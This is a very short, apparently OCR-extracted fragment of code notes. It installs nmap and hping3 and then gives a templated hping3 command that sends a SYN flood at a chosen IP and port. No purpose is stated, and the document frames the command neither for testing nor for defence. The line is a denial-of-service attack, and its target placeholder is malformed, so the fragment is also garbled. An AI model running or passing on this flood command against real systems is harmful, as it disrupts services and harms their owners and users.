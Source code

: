 # sudo apt install nmap
# sudo apt install hping3
# 
# 


:: command;
:: sudo hping3 -d 999 -p {port} -S --flood {ip addr >> $ip}
